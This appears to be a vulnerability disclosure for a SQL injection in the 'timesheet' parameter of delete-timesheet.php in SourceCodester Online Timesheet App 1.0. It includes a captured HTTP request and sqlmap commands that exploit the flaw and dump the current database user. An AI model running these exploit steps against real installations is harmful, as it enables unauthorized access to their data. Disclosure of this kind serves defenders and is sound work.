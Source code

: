 _***A sql injection vulnerability in has been found in SourceCodester Online Timesheet App 1.0.(delete-timesheet.php). This issue affects some unknown processing of the file /endpoint/delete-timesheet.php. The manipulation of the argument timesheet leads to sql injection.***_

_***Explaination:***_

SQL injection errors occur when:

Data enters a program from an untrusted source.

The data is used to dynamically construct a SQL query.

_***Target Code source:***_

https://www.sourcecodester.com/php/17106/online-timesheet-app-using-php-and-mysql-source-code.html

_***Url***_: online-timesheet/endpoint/delete-timesheet.php

_***Abstract***_:

SQL Injection vulnerability in Online Timesheet App v.1.0 allows an attacker to execute arbitrary code via a crafted payload to the timesheet parameter in the delete-timesheet.php component.

_***Details:***_

In this case the data is passed to execute in delete-timesheet.php: 
![](Pasted%20image%2020240925105623.png)

We get the request when we click the “delete” button on the WEB interface: 
![](Pasted%20image%2020240925111148.png)

1.txt:
GET /online-timesheet/endpoint/delete-timesheet.php?timesheet=2 HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Cookie: PHPSESSID=tdt4mlc4b6qnm7nuivikbm9ii2
Host: 172.20.224.1
Referer: [http://172.20.224.1/online-timesheet/](http://172.20.224.1/online-timesheet/)
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36

./sqlmap.py -r 1.txt
![](Pasted%20image%2020240925111225.png)

./sqlmap.py -r 1.txt --current-user
![](Pasted%20image%2020240925111240.png)


